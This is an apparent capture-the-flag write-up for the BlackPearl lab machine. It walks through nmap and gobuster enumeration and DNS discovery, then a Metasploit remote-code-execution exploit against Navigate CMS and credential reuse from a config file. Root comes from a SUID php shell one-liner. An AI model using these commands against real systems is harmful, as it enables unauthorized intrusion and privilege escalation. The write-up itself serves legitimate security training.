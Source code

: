 # CTF - BlackPearl

## Scanning and Enumeration

### 1. Nmap scan to discover victim

	sudo nmap -sn 192.168.100.1/24

Result : ./discovery-scan
Target IP : 192.168.100.190

### 2. Scanning Target IP

	sudo nmap -A -sC -sV 192.168.100.190

Result : ./nmap-initial

#### Open Ports: 

- 22/tcp ssh v:OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
- 53/tcp domain ISC BIND 9.11.5-P4-5.1+deb10u5 (Debian Linux)
- 80/tcp http nginx 1.14.2

#### operating System

Running: Linux 4.X|5.X

OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5

OS details: Linux 4.15 - 5.6

### 3. Exploring directories (NO LUCK)

	sudo gobuster dir -u http:192.168.100.190/ -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt

Result: ./directory-burst1 

Directories found: /secret

- 'Secret' was a file which was downloaded and contains a note directory bursting won't help ;(

### 4. Enumerating DNS

- As we see above port 53 is open, so most likely a DNS server is running.
- We will now use a tool called 'nslookup' to gather information.

Vislaize:

![nslookup](https://user-images.githubusercontent.com/60139669/152702255-8698f65d-2fb8-466f-9d1c-bf91b98d87ff.png)


- The localhost query produced a domain name.
- Browser can't reach the domain.

#### Modifying /etc/hosts

- this file is used to map domains and sub-domains to any IP adderess.
- Add the entry with domain name enumerated above and IP address of the target.

Visulaize:

![etc-hosts-edit](https://user-images.githubusercontent.com/60139669/152702200-437ba6d1-6e85-4366-9fba-f413e7adfc98.png)


	192.168.100.190	blackpearl.tcm

- We can access the domain now through a browser.
- Php homepage is loaded.

### 5. Exploring directories (AGAIN!!)

	sudo gobuster dir -u http://blackpearl.tcm/ -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt

Result: ./directory-burst2
Directories found: /navigate

- The webpage with '/navigate' loads a login page at  '/navigae/login.php'. We notice that the server is running php.
- Directory bursting after /naviagte/ with '.php' extension.

		gobuster dir -u http://blackpearl.tcm/navigate/ -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt -x php

Result: directory-burst3


### 6. Exploitation

CVE: 2018-17553 2018-17552
Ref: https://www.exploit-db.com/exploits/45561

Descrption: This exploit bypassses authentication bacause of the insufficient sanitization in the database. After, there is an path traversal vulnerability in navigate_upload.php, which could be used to upload the payload to arbitray locations.


- We can use this exploit with metasploit.

		1	msf > use exploit/multi/http/navigate_cms_rce
		2	msf exploit(navigate_cms_rce) > show targets
		3	   	...targets...
		4	msf exploit(navigate_cms_rce) > set TARGET < target-id >
		5	msf exploit(navigate_cms_rce) > show options
		6    	...show and set options...
		7	msf exploit(navigate_cms_rce) > exploit 

- One meterpreter starts, enter 'shell' to get the machine shell.
- 'python3 -c 'import pty;pty.spawn("/bin/bash")'' use this to spawn an interactive terminal using python.

### 7. Privilege escalation

- Navigate to '/var/www/blackpearl.tcm/navigate/cfg' and cat globals.php to read the contents of thef file.
- There is a databse connection call with password and username is written in clear text.

		...
		define('PDO_USERNAME', "alek");
		define('PDO_PASSWORD', "H4x0r");
		define('PDO_DRIVER',   "mysql");
		...

- ssh connection using these credentials

- download linpease - Linux Privilege Escalation Awesome Script
- It scans the entire machine and provide you reasults on potential escaltion paths.

- Scroll down under Interesting information

		rwsr-xr-x 1 root root 4.6M Feb 13  2021 /usr/bin/php7.3 (Unknown SUID binary)

- 's' in 'rws' means that any user can run this specific file under root.
- Navigate to the webpage https://gtfobins.github.io/gtfobins/php/#suid
- It contains list of binaries in linux system which can be used to escalate privileges in misconfigured syetems.

		php7.3 -r "pcntl_exec('/bin/sh', ['-p']);"

- Run thhis to get the root access shell.
